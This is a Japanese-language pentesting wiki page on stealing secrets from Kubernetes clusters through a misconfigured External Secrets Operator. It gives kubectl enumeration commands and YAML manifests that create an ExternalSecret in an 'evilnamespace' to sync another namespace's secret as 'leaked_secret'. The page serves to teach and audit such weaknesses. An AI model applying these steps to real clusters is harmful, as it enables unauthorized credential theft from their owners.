 # External Secret Operator

**このページの元の著者は** [**Fares**](https://www.linkedin.com/in/fares-siala/)

このページでは、誤って構成されたESOまたはESOを使用して秘密を同期するアプリケーションから秘密を盗む方法についてのいくつかのポイントを示します。

## Disclaimer

以下に示す技術は、特定の条件が満たされる場合にのみ機能します。たとえば、あなたが所有または侵害した名前空間で秘密を同期するために必要な要件に依存します。自分で見つける必要があります。

## Prerequisites

1. 名前空間での管理者権限を持つkubernetes / openshiftクラスターへの足場
2. クラスターレベルでの少なくともExternalSecretへの読み取りアクセス
3. ESOがあなたの秘密を同期するために必要なラベル/注釈またはグループメンバーシップがあるかどうかを確認します。運が良ければ、定義された秘密を自由に盗むことができます。

### Gathering information about existing ClusterSecretStore

十分な権限を持つユーザーがいると仮定して、最初に既存の_**ClusterSecretStores**_をリストアップします。
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

クラスターシークレットストア _**mystore**_ が見つかったと仮定します。その関連する externalsecret を列挙します。
```sh
kubectl get externalsecret -A | grep mystore
```
_このリソースは名前空間スコープであるため、どの名前空間を探すべきかすでに知っていない限り、-Aオプションを追加してすべての名前空間を横断して探してください。_

定義されたexternalsecretのリストが得られるはずです。_**mysecret**_というexternalsecretオブジェクトが_**mynamespace**_という名前空間によって定義され、使用されていると仮定しましょう。それが保持している秘密の種類について、もう少し情報を集めてください。
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### 部品の組み立て

ここから、1つまたは複数のシークレット名（Secretリソースで定義されているように）を取得できます。出力は次のようになります:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
これまでに得たものは：

- ClusterSecretStoreの名前
- ExternalSecretの名前
- シークレットの名前

必要なものがすべて揃ったので、ExternalSecretを作成できます（最終的には、新しいシークレットを同期させるために必要な前提条件に従って、新しいNamespaceをパッチまたは作成することになります）：
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
数分後、同期条件が満たされていれば、あなたのネームスペース内で漏洩したシークレットを表示できるはずです。
```sh
kubectl get secret leaked_secret -o yaml
```
## 参考文献

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
